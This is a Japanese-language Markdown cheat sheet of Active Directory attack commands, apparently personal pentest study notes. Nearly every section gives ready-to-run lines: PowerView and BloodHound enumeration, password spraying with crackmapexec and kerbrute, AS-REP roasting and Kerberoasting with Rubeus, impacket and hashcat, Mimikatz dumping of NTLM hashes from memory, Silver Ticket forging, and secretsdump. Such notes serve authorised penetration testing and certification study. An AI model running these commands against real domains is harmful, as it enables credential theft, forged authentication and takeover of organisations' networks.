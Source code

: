 ## 目次
1. [Enumeration](#enumeration)
2. [Powerview](#powerview)
3. [Bloodhound](#bloodhound)
4. [PsLoggedon](#psloggedon)
5. [Password Spraying](#password-spraying)
6. [AS-REP Roasting](#as-rep-roasting)
7. [Kerberoasting](#kerberoasting)
8. [Silver Tickets](#silver-tickets)
9. [Secretsdump](#secretsdump)

## Enumeration
ドメインに参加しているマシンでローカル管理者を確認する:
```bash
net localgroup Administrators
```
---

## Powerview
```bash
Import-Module .\PowerView.ps1 # PowerShellでモジュールをロード、エラーが発生した場合は実行ポリシーを変更
Get-NetDomain # ドメインの基本情報を取得
Get-NetUser # ドメイン内のすべてのユーザーをリスト
```
- 上記コマンドの出力は、`select`コマンドを使用してフィルタリングできます。たとえば、`Get-NetUser | select cn`のように、`cn`は出力のサブヘッダーです。

```markdown
Get-NetGroup # ドメイングループを列挙
Get-NetGroup "group name" # 特定グループの情報を取得
Get-NetComputer # ドメイン内のコンピュータオブジェクトを列挙
Find-LocalAdminAccess # 現在のユーザーがドメイン内の任意のコンピュータに管理者権限を持っているかどうかをスキャン
Get-NetSession -ComputerName files04 -Verbose # Get-NetSessionでログオン中のユーザーを確認、詳細情報を追加
Get-NetUser -SPN | select samaccountname,serviceprincipalname # ドメイン内のSPNアカウントをリスト
Get-ObjectAcl -Identity <user> # ACE(アクセス制御エンティティ)を列挙し、SID(セキュリティ識別子)をリスト
Convert-SidToName <sid/objsid> # SID/ObjSIDを名前に変換

# 特定グループに対する「GenericAll」権限をチェック。取得後、convert-sidtonameを使用して変換可能
Get-ObjectAcl -Identity "group-name" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights

Find-DomainShare # ドメイン内の共有を検索

Get-DomainUser -PreauthNotRequired -verbose # AS-REP Roastingの対象となるアカウントを特定

Get-NetUser -SPN | select serviceprincipalname # Kerberoastingの対象となるアカウント
---
```

## Bloodhound
### Collection methods - database

```bash
# Sharphound - sharphound.ps1を侵害されたマシンに転送
Import-Module .\Sharphound.ps1 
Invoke-BloodHound -CollectionMethod All -OutputDirectory <location> -OutputPrefix "name" # 指定された詳細で収集し、出力がWindowsマシンに保存される

# Bloodhound-Python
bloodhound-python -u 'uname' -p 'pass' -ns <rhost> -d <domain-name> -c all # 出力はKaliマシンに保存される
```

### Bloodhoundの実行
```bash
sudo neo4j console
```
- 次に取得した.jsonファイルをアップロードします。
---

## PsLoggedon
### ドメインのリモートシステムでのユーザーログオンを見る (外部ツール)
```bash
.\PsLoggedon.exe \\<computername>
```
---

## Password Spraying
### Crackmapexec - 出力に「Pwned!」と表示されるか確認
```bash
crackmapexec smb <IPまたはサブネット> -u users.txt -p 'pass' -d <domain> --continue-on-success # サブネットの場合、continue-on-successオプションを使用
```

### Kerbrute
```bash
kerbrute passwordspray -d corp.com .\usernames.txt "pass"
```
---

## AS-REP Roasting
### AS-REP Roastingの対象となるアカウントのハッシュを取得、Kali Linuxから実行
```bash
.\Rubeus.exe asreproast /nowrap
# 侵害されたWindowsホストからダンプ
```

```bash
impacket-GetNPUsers -dc-ip <DC-IP> <domain>/<user>:<pass> -request
```

### ハッシュのクラック
```bash
hashcat -m 18200 hashes.txt wordlist.txt --force
```
---

## Kerberoasting
```bash
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast # 侵害されたWindowsホストからダンプし、カスタム名で保存
```

```bash
impacket-GetUserSPNs -dc-ip <DC-IP> <domain>/<user>:<pass> -request # Kaliマシンから実行
```

```bash
hashcat -m 13100 hashes.txt wordlist.txt --force # ハッシュのクラック
```
---

## Silver Tickets
### Mimikatzを使用してSPNユーザーのハッシュを取得
```bash
privilege::debug
sekurlsa::logonpasswords # ここでSPNアカウントのNTLMハッシュを取得
```

#### ドメインSIDの取得
```bash
ps>whoami /user
# ログインしているユーザーのSIDを取得。ユーザーのSIDが "S-1-5-21-1987370270-658905905-1781884369-1105" の場合、ドメインSIDは "S-1-5-21-1987370270-658905905-1781884369"
```

#### Silver Ticketの偽造 (Mimikatz)
```bash
kerberos::golden /sid:<domainSID>/domain:<domain-name>/ptt /target:<targetsystem.domain>/service:<service-name>/rc4:<NTLM-hash>/user:<new-user>exit
```

#### チケットの確認
```bash
ps>klist
```

### サービスへのアクセス
```bash
ps> iwr -UseDefaultCredentials <servicename>://<computername>
```
---

## Secretsdump
```bash
secretsdump.py <domain>/<user>:<password>@<IP>
```
